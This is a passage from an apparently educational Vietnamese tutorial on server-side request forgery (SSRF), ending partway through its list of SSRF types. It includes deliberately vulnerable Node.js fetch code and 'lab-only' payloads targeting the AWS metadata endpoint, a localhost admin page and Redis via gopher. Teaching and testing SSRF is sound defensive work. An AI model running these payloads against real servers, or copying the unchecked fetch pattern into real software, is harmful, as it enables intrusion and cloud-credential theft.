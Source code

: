 # 1) SSRF là gì — tóm tắt

**Server-Side Request Forgery (SSRF)** là lỗi khi ứng dụng cho phép user kiểm soát URL/host mà server sẽ gọi (ví dụ fetch URL, webhook, image loader, URL preview). Kẻ tấn công lợi dụng để ép server thực hiện request tới dịch vụ nội bộ hoặc bên ngoài thay mặt server, dẫn tới lộ dữ liệu nội bộ, SSRF→SSRF chaining, SSRF→RCE hoặc SSRF→SSO token leak (ví dụ metadata services).


# 2) Phân loại SSRF & ví dụ cho mỗi loại

Mình trình bày theo *hành vi / vector* — mỗi mục có ví dụ payload (lab-only) và giải thích.


## A. Basic SSRF (Reflected / In-band)

**Mô tả:** server nhận URL từ user và fetch nội dung rồi trả về (hoặc hiển thị). Attacker chỉ cần cung cấp một URL để server truy vấn và hiển thị kết quả.

**Ví dụ vulnerable code (pseudo):**

```js
// Node.js pseudo: server fetches URL từ param `url` và trả nội dung
app.get('/fetch', async (req, res) => {
  const r = await fetch(req.query.url);
  const body = await r.text();
  res.send(body);
});
```

**Payload (lab):**

```
https://victim.example.com/fetch?url=http://example.com/attacker
```

Server sẽ request `http://example.com/attacker` — attacker có thể nhận request và thấy headers/source IP.

**Hậu quả:** xác thực token leaking nếu server đặt token header; dùng để fingerprint internal services.


## B. SSRF → Internal Service Access (localhost / internal IP)

**Mô tả:** server gọi tới địa chỉ nội bộ (127.0.0.1, 169.254.169.254, 10.x.x.x, 172.16.x.x, 192.168.x.x) để truy cập dịch vụ chỉ reachable từ máy đó.

**Ví dụ payloads:**

* Truy metadata AWS IMDS (lab/allowed only):
  `http://169.254.169.254/latest/meta-data/`
* Truy web admin nội bộ:
  `http://127.0.0.1:8080/admin`
* Truy Redis thông qua gopher (xem phần Protocol tricks):
  `gopher://127.0.0.1:6379/_%2a__` *(phức tạp hơn)*
